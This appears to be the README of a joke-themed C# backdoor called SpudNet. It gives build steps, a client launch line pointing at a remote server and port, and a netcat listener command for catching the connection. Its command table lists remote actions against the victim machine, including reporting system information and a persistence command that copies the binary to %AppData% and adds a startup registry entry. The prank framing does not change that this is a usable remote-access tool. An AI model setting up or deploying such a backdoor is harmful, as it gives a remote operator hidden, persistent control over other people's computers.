

# SpudNet
---
## Description
A Potato-themed backdoor developed in C#. 



## Requirements
- .NET Framework ≥ 4.7
- A Windows client running SpudBot.exe.
- A server listening for incomming connections. 

## Installation
- Download a copy of the Github repository.
- Open **SpudBot.Sln** within Visual Studio.
- Build the solution within Visual Studio. 

## Usage
On the client, launch **SpudBot.exe** with Command-line arguments pointing to the server you would like to connect too. 
```
SpudBot.exe "Server" "Port"
```
On the server, setup a listener to watch for inbound connections.
```
nc -lvp 5370 -k
```
The SpudNet framework contains built-in commands for the server to help *Spudify* the client.  

| Command | Description |
| --- | --- |
| help | Print out a list of Commands. |
| background | Update the Clients Desktop Background. |
| calc | Spawn an instance of calc.exe. |
| fact | Send the Client a Random SpudFact via Windows Notification. |
| music | Play the Client some Music: [The Potato Song](https://www.youtube.com/watch?v=q7uyKYeGPdE). |
| persistance | Copy SpudBot.exe to %AppData% and Update the Windows Registry to launch SpudBot.exe on Startup | |
| search | Search for Potatoes near the Client in a Web Browser. |
| status | Report the Status of the Connection |
| video | Download and Play a Video Recipe for the Client |
| whoami | Query System Information about the Client. |
| exit | Terminate the Existing Session and close SpudBot.exe for the Client. |
---
